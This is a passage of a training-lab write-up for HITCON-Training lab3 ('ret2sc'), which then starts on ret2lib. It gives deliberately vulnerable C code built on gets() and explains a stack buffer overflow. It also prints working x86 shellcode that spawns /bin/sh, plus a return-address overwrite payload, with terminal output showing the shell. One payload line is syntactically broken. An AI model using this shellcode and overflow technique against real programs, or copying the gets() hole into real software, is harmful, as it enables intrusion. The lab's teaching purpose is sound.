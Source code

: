 
## 3. ret2sc
ret2sc.c
```c
#include <stdio.h>

char name[50];

int main(){
	setvbuf(stdout,0,2,0);
	printf("Name:");
	read(0,name,50);
	char buf[20];
	printf("Try your best:");
	gets(buf);
	return ;
}
```

``ret2sc.py`` is python code to test the exploit code remotely

main function ``read`` 50 bytes to global variable ``name`` and gets input to local variable ``buf`` using ``gets``
By looking at the disassembled code, I found out that ``name`` is at 0x804a060
Since ``name`` is at a fixed location, I chose to put shellcode to that location and overwrite the return address of main function with its offset

``gets`` is saved at ebp-0x14

first input:
1. shellcode (41 bytes)
2. dummy data (9 bytes)

second input:
1. dummy data (24+a bytes)
2. return address (4 bytes)

final payload
```python
python -c 'print "<shellcode>\n" +  + "a"*32 "\x60\xa0\x04\x08\n"'
```

```bash
junheah@ubuntu:~/HITCON-Training-master/LAB/lab3$ (python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "b"*9 + "a"*32 + "\x60\xa0\x04\x08\n"';cat) | ./ret2sc
Name:Try your best:whoami
junheah
pwd
/home/junheah/HITCON-Training-master/LAB/lab3
```


## 4. ret2lib
ret2lib.c
```c
#include <stdio.h>

void See_something(unsigned int addr){
	int * address ;
	address = (int * )addr ;
	printf("The content of the address : %p\n",* address);
};

void Print_message(char * mesg){
	char buf[48];
	strcpy(buf,mesg);
```